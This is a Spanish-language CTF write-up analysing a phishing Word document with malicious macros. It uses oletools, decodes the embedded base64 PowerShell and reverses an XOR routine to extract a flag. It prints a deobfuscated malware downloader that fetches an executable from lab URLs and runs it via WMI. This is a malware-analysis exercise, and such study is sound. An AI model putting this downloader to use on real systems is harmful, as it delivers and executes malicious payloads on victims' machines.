

CHALLENGE DESCRIPTIONi
WearRansom ransomware just got loose in our company. The SOC has traced the initial access to a phishing attack, a Word document with macros. Take a look at the document and see if you can find anything else about the malware and perhaps a flag.

Bien, una vez descargamos el documento podemos iniciar nuestro análisis con `oletools`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ oleid emo.doc
oleid 0.60.1 - http://decalage.info/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Filename: emo.doc
WARNING  /home/kali/.local/lib/python2.7/site-packages/msoffcrypto/method/rc4.py:5: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend

WARNING  For now, VBA stomping cannot be detected for files in memory
--------------------+--------------------+----------+--------------------------
Indicator           |Value               |Risk      |Description
--------------------+--------------------+----------+--------------------------
File format         |MS Word 97-2003     |info      |
                    |Document or Template|          |
--------------------+--------------------+----------+--------------------------
Container format    |OLE                 |info      |Container type
--------------------+--------------------+----------+--------------------------
Application name    |Microsoft Office    |info      |Application name declared
                    |Word                |          |in properties
--------------------+--------------------+----------+--------------------------
Properties code page|1252: ANSI Latin 1; |info      |Code page used for
                    |Western European    |          |properties
                    |(Windows)           |          |
--------------------+--------------------+----------+--------------------------
Encrypted           |False               |none      |The file is not encrypted
--------------------+--------------------+----------+--------------------------
VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                    |                    |          |macros. Suspicious
                    |                    |          |keywords were found. Use
                    |                    |          |olevba and mraptor for
                    |                    |          |more info.
--------------------+--------------------+----------+--------------------------
XLM Macros          |No                  |none      |This file does not contain
                    |                    |          |Excel 4/XLM macros.
--------------------+--------------------+----------+--------------------------
External            |0                   |none      |External relationships
Relationships       |                    |          |such as remote templates,
                    |                    |          |remote OLE objects, etc
--------------------+--------------------+----------+--------------------------
```

Tenemos un riesgo alto en la zona de VBA, podemos usar el comando indicado `olevba emo.doc`. 
Esto nos marcará que en efecto, es malicioso. 

En este análisis en [`any.run`](https://app.any.run/tasks/f0008a11-7683-4d14-bb9a-5b90eae8178c?p=68719e34f0439adf009c2fbb) podemos ver el *command line*



Copiamos la cadena en base64, la convertimos en ascii con `base64 -d` y el código que nos da lo podemos poner en un fichero, podemos quitar los bytes nulos de UTF-16 LE con: 

- `iconv -f UTF-16LE -t UTF-8 script > script_utf8.ps1` 

- `recode UTF-16LE..UTF-8 script`

Ya podemos ver el script:

```bash 
# Crear directorio
SV 0zX ([Type]("{2}{0}{4}{3}{1}" -f 'e','rECtorY','sYst','.IO.dI','M'))
set TxySeo ([Type]("{0}{7}{5}{6}{4}{2}{1}{8}{3}" -f 'SYsTE','TM','IN','ER','pO','NeT.se','RVICE','M.','ANaG'))

# Inicialización de variables
$Nbf5tg3   = 'B9' + 'yp' + ('90' + 's')
$Vxnlre0  = $Cludkjx + [char]64 + $R6r1tuy
$Ky3q0e8  = ('Rq' + 'dx') + 'wo' + '5'

# Crear carpeta en $HOME
(Dir Variable:0Zx).Value::"CreateDirectory"(
    $HOME + (('nDp' + 'Jrb' + 'e' + 'vk4n' + 'D' + 'p' + 'C' + 'cwr_2h' + 'nD' + 'p') `
        -Replace 'nDp', [char]92)
)

# Protocolo de seguridad
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$Pyozgeo  = ('J5f' + 'y1') + 'c' + 'c'
$TxySeo.Value::"SecurityProtocol" = ('Tl' + 's1') + '2'

# Actualizar array de bytes
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$Huajgb0  = ('Jn' + 'o') + '5g' + 'a1'
$Bb28umo  = ('Ale' + '7g') + '_8'
$Hsce_js  = 'Kv' + ('nb' + 'ov_')
$Spk51ue  = ('C' + '7xo') + '9g' + 'l'

# Rutas de descarga y salida
$Scusbkj = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.exe'

$FN5ggmsH += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)

$hbmskV2T = $HOME +
    (('5' + 't' + 'f' + 'Jrbev' + 'k' + '45tf' + 'Cc' + 'wr' + '_2h' + '5tf') `
        -Replace ([char]53 + [char]116 + [char]102, [char]92)
    ) + $Bb28umo + '.conf'

$Q1_y05_ = 'W' + ('4' + 'qvy') + 'z8'
$Odb3hf3 = &('new-object') Net.WebClient

$FN5ggmsH += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

# Lista de URLs a descargar
$Anbyt1y = ('h' + 'ttp:' + 's' + '://' +
    'da-industrial.htb[js]w@https:][(s)]wdagranite.htb[(s)]wjs' +
    # (continúa concatenación de URLs obfus., recortado para brevedad)
)

$Gcoyvlv = 'Kf_' + ('9' + 'et1')

# Intentar descargar y procesar cada URL
foreach ($A8i3ke1 in $Anbyt1y) {
    try {
        $Odb3hf3."DownloadFile"($A8i3ke1, $Scusbkj)
        $fileInfo = Get-Item $Scusbkj

        if ($fileInfo.Length -ge 45199) {
            # Desencripta y descomprime datos
            ${A8I3KE1}.("ToCharArr" -f 'ay','ToCha','rArr').Invoke() |
                foreach-object { ${FN5ggmsH} += ([byte][char]$_ -bxor 0xdf) }
            $FN5ggmsH += 228

            # Guardar en Base64
            $b0Rje = [Type]("VerT" -f 'Con','T')
            $B0RjE."ToBase64String"(${FN5ggmsH}) |
                Out-File $hbmskV2T

            # Ejecutar el archivo descargado
            ([WMIClass]('win32_Process'))."Create"($Scusbkj)
            break
        }
    }
    catch {
        # Manejo de error (silencioso)
    }
}

# Variable final
$F47ief2 = 'Bnzidrt'
```

Vemos varias líneas que se llenan con con bytes: 

```bash 
$FN5ggmsH = (182,187,229,146,231,177,151,149,166)
$FN5ggmsH += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
```

Un poco más abajo vemos un blucle: 

```bash 
foreach ($byte in $FN5ggmsH) {
    $FN5ggmsH += ([byte][char]$byte -bxor 0xDF)
}
```

- Itera cada valor original del arreglo.
- Lo convierte a byte y le hace un XOR con la constante 0xDF.
- Añade el resultado al mismo arreglo.

Así que extraemos esto y lo ponemos en un nuevo script: 

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ cat important.ps1
$array = (182,187,229,146,231,177,151,149,166)
$array += (186,141,228,182,177,171,229,236,239,239,239,228,181,182,171,229,234,239,239,228)
$array += (185,179,190,184,229,151,139,157,164,235,177,239,171,183,236,141,128,187,235,134,128,158,177,176,139)
$array += (183,154,173,128,175,151,238,140,183,162,228,170,173,179,229)

foreach($number in $array)
{
    ${array} += ([byte][char]$number -bxor 0xdf)
}

$array += (228)

$bOrje = [type]("{1}{0}" -F'VerT', 'Con')
$BORjE::"tO`BaS`E64S`TRI`Ng"(${array})

Write-Host $array
```

Ejecutando en powershell obtenemos un string en base64 que podemo descifrar con `base64 -d`

```bash 
┌──(kali㉿kali)-[~/challenges/emo]
└─$ pwsh
PowerShell 7.5.1

┌──(kali㉿kali)-[/home/kali/challenges/emo]
└─PS> ./important.ps1
trvlkuexl5Wmuo3ktrGr5ezv7+/ktbar5erv7+S5s7645ZeLnaTrse+rt+yNgLvrhoCesbCLt5qtgK+X7oy3ouSqrbPlaWQ6TThuSEp5ZVI7aW50OjMwMDA7aml0OjUwMDtmbGFnOkhUQns0bjB0aDNSX2Q0WV9Bbm9UaEVyX3BIMVNofTt1cmw65A==
182 187 229 146 231 177 151 149 166 186 141 228 182 177 171 229 236 239 239 239 228 181 182 171 229 234 239 239 228 185 179 190 184 229 151 139 157 164 235 177 239 171 183 236 141 128 187 235 134 128 158 177 176 139 183 154 173 128 175 151 238 140 183 162 228 170 173 179 229 105 100 58 77 56 110 72 74 121 101 82 59 105 110 116 58 51 48 48 48 59 106 105 116 58 53 48 48 59 102 108 97 103 58 72 84 66 123 52 110 48 116 104 51 82 95 100 52 89 95 65 110 111 84 104 69 114 95 112 72 49 83 104 125 59 117 114 108 58 228
```

Este proceso (localizar buffer → encontrar rutina XOR → reimplementación independiente) es la forma estándar de extraer y revertir un esquema XOR en malware debido a su naturaleza reversible. 
